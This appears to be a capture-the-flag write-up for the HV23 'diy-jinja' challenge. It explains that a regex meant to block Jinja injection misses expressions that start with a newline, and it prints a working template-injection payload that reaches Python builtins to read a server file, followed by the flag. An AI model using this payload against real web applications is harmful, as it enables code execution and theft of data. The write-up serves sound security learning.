

# 10 - diy-jinja

## Description

Level: Medium<br/>
Author: coderion

We've heard you like to create your own forms. With **SANTA** (Secure and New Template Automation), you can upload your
own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100%
secure and even with anti-tampering protection!

## Solution

For this challenge we are given a remote website as well as its source in [a ZIP file](diy-jinja-source.zip).
We can upload a Jinja template and then send data to that template to render it. The website looked like this:



The template upload logic is pretty straight forward:

```python
@app.route("/upload", methods=["POST"])
def upload_template():
    message = request.files["template"]
    fields_data = request.form["fields"]
    fields = json.loads(fields_data)

    template_id = str(uuid.uuid4())
    template_path = os.path.join(
        app.config["TEMPLATES_FOLDER"], secure_filename(template_id + ".html")
    )
    tmp_path = os.path.join(
        app.config["TEMPLATES_FOLDER"], str(uuid.uuid4())
    )
    message.save(tmp_path)

    # Prevent any injections
    jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
    for obj in jinja_objects:
        if not re.match(r"^[a-z ]+$", obj):
            # An oopsie whoopsie happened
            return Response(
                f"Upload failed for {tmp_path}. Injection detected.", status=400
            )

    # If file is injection-free, save it
    os.rename(tmp_path, template_path)
    with open(
            os.path.join(app.config["TEMPLATES_FOLDER"], f"{template_id}_form.html"), "w"
    ) as f:
        f.write(
            render_template(
                "form_template.html", fields=fields, template_id=template_id
            )
        )

    return redirect(url_for("render_form", template_id=template_id))
```

Our goal is to inject some Jinja code via the template upload function to get RCE. The deadly bug can be seen here:

```python
# Prevent any injections
jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
for obj in jinja_objects:
    if not re.match(r"^[a-z ]+$", obj):
        ...
```

The problem with this code is that it only detects injections of the form `{{...}}`. Consider the case where there's a
newline after the opening braces. That wouldn't match the outer regex, essentially giving us RCE. This template uses
this exact bug:

```html
<!doctype html>
<html lang="en">
<body>
{{
request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
</body>
</html>
```

The template executes the python code which loads the `flag.txt`
file. [This website was useful when looking for the right payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti).
Uploading the template and visiting it, gives the flag: `HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`.
